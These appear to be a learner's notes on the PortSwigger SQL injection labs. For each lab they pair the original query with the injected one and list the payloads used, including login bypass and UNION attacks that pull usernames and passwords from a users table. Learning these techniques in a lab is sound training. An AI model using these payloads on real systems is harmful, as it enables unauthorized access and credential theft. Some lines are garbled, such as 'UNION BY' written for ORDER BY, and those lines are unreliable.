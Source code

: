 <div align="center">
  <h1>-------------------------------LABS---------------------------------</h1>
</div>

[CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass`
- Original Query: `SELECT firstname FROM users WHERE username='admin' AND password='admin'`
- Modified: `SELECT firstname FROM users WHERE username='admin'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users;`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 4: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+BY+4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 5: SQL injection UNION attack, `retrieving data from other tables` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns
'Union+select+Null,'XYZ'-- To determine which column allows TEXT values
'Union+select+Null,username+from+users-- To retrieve Single TEXT value
'Union+select+Null,password+from+users-- To retrieve Single TEXT value
'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value
'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)

## Lab 7: SQL injection attack, querying the database type and version on Oracle `Union Query` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

1. For Oracle:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

- Injections: `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

2. For MYSQL:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
- 'UNION+SELECT+NULL,NULL#        Determine the Number of Columns, By comments it's MYSQL DB
- 'UNION+SELECT+@@version,'abc'#  Refer cheatsheet for cmd
- 'UNION+SELECT+@@version,+NULL#
```

## Lab 9: SQL injection attack, listing the database contents on non-Oracle databases [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)





## Lab 10: [Link]()

## Lab 11: [Link]()

